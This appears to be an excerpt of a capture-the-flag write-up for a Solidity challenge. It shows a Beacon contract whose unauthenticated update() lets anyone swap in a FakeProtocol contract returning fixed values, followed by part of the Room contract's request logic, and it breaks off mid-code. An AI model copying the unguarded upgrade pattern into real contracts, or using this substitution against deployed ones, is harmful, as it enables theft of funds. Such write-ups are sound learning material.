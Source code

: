 The Room contract is getting the address for the _protocol contract from beacon.implementation(), and the Beacon contract has no authentication, so anyone can set the implementation to their own contract :

```solidity
contract Beacon is IBeacon {
    address internal _impl;

    function update(address newImpl) external {
        _impl = newImpl;
    }

    function implementation() external view returns (address) {
        return _impl;
    }
}
```

So I can just set the implementation to my modified protocol contract that always return the same value for the int256 values left and right.

```solidity
contract FakeProtocol is IProtocol {
    function evaluate(int256[] memory polynomial, int256 x) external pure returns (int256 ret) {
        // int256 power = 1;
        // for (uint256 i; i < polynomial.length;) {
        //     ret += power * polynomial[i];
        //     power *= x;
        //     unchecked {
        //         i += 1;
        //     }
        // }
        return int256(0);
    }

    function evaluateLagrange(int256[] memory xValues, int256[] memory yValues, int256 x)
        external
        pure
        returns (int256 ret)
    {
        // for (uint256 i = 0; i < yValues.length;) {
        //     ret = ret + _calculateBasisPolynomial(i, x, xValues) * yValues[i];
        //     unchecked {
        //         i += 1;
        //     }
        // }
        return int256(0);
    }
...
```

Finally, we have to increase historyRequestsLen to 3, while keeping isHacked() to false.

```solidity
    function onRequest(int256 x) external returns (int256 y) {
        // check neighbors
        require(_isNeighbor(msg.sender), "Not a Neighbor");
        y = _onRequest(x);
    }

    function selfRequest(int256 x) external returns (int256 y) {
        // check not neighbors
        require(!_isNeighbor(msg.sender), "Be a Neighbor");
        require(selfLimit < 1, "match the limit");
        unchecked {
            selfLimit += 1;
        }
```